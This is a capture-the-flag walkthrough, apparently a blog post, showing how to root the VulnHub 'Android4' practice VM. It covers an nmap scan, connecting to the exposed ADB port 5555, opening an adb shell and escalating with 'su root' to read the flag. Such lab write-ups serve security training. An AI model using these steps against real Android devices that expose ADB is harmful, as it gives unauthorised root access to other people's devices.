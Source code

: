 ```yaml
---
title: Android4 Walkthrough
author: alex
date: Wed 15 Nov 14:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
---
```


This is going to be a quick one - today I'm hacking into **Android4**! It is an Android-based VM you can compromise in a couple of simple steps using **ADB** or **PhoneSploit**. It is a good VM to start with **ADB**.

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation

## Tools Used

1. ADB

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
 Currently scanning: 192.168.10.0/16   |   Screen View: Unique Hosts                                              
                                                                                                                  
 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     08:00:27:2d:87:9b      1      60  PCS Systemtechnik GmbH                                         
 192.168.1.52    08:00:27:d6:b0:bb      1      60  PCS Systemtechnik GmbH
```

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.52
```

And the output...

```
PORT      STATE SERVICE VERSION

5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VirtualBox; device: x86)

8080/tcp  open  http    PHP cli server 5.5 or later
|_http-title: Deface by Good Hackers
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   1024 b3:98:65:98:fd:c0:64:fe:16:d6:30:36:aa:2b:ef:6b (DSA)
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)

MAC Address: 08:00:27:D6:B0:BB (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 49.709 days (since Tue Sep 26 21:45:34 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

Here we can see 3 ports but the one that should interest us is **port 5555**: the **ADB port**. Let's fire **ADB** and connect to our target:

```
adb connect 192.168.1.52
```

Now we are connected to the target. Let's open up a shell for us:

```
adb shell
```

And as we can see we get a shell! In order to compromise the VM we just need to change to the root user:

```
su root
```

That easy! Now we can `cat /data/root/flag.txt`:

**ANDROID{u_GOT_root_buddy}**
